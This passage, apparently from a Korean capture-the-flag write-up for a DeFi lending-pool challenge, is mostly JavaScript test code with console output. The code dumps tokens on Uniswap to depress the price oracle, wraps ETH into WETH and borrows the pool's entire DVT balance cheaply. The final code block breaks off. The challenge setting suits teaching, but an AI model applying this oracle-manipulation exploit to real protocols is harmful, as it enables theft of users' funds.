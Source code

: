 ```tsx
need weth: 29.49649483319732198
```

약 29.5 weth면 충분하다고 나온다. 이는 공격자의 eth를 weth로 변환했을 때 총 29.9 weth 정도 얻게 되므로 약 19.9이더를 weth로 변환해 필요한 29.5weth보다 넉넉하게 29.8 weth로 맞춰주자.

```tsx
await this.weth.connect(attacker).deposit({value:ethers.utils.parseEther('19.9')});
console.log("Attacker Weth:",ethers.utils.formatEther(await this.weth.connect(attacker).balanceOf(attacker.address)));
console.log("Attacker ether:",ethers.utils.formatEther(await ethers.provider.getBalance(attacker.address)));
```

WETH9.sol 컨트랙트를 살펴보면 deposit 함수를 통해서 eth를 weth로 변환할 수 있다.

```tsx
// WETH9.sol
function deposit() public payable {
        balanceOf[msg.sender] += msg.value;
        emit Deposit(msg.sender, msg.value);
    }
```

따라서 19.9 eth를 weth로 변환해 주고 난 후 공격자의 Weth와 eth 자산을 보면

```tsx
Attacker Weth: 29.800695134061569016
Attacker ether: 0.09972006625611711
```

로 100만 DVT 토큰을 빌리기위한 29.5weth보다 많은 것을 알 수 있다. 따라서 이제 100만 DVT 토큰을 빌리자.

```tsx
await this.weth.connect(attacker).approve(this.lendingPool.address,weth_need);
this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE);
```

그러면 100만 DVT 토큰을 대출받게 된다.

최종 코드는 아래와 같다.

```tsx
it('Exploit', async function () {
        await this.token.connect(attacker).approve(this.uniswapRouter.address,ATTACKER_INITIAL_TOKEN_BALANCE);

        await this.uniswapRouter.connect(attacker).swapExactTokensForTokens(
            ATTACKER_INITIAL_TOKEN_BALANCE,
            0,
            [this.token.address,this.weth.address],
            attacker.address,
            (await ethers.provider.getBlock('latest')).timestamp * 2,   
        );
        
        attacker_weth_balance= await this.weth.connect(attacker).balanceOf(attacker.address);
        attacker_eth_balance= await ethers.provider.getBalance(attacker.address);
        console.log("Attacker weth:",ethers.utils.formatEther(attacker_weth_balance));
        console.log("Attacker eth:",ethers.utils.formatEther(attacker_eth_balance));
        
        let weth_need = await this.lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE);
        console.log("need weth:",ethers.utils.formatEther(weth_need));
        console.log("-------------- eth -> weth -----------------")

        await this.weth.connect(attacker).deposit({value:ethers.utils.parseEther('19.9')});
        console.log("Attacker Weth:",ethers.utils.formatEther(await this.weth.connect(attacker).balanceOf(attacker.address)));
        console.log("Attacker ether:",ethers.utils.formatEther(await ethers.provider.getBalance(attacker.address)));
```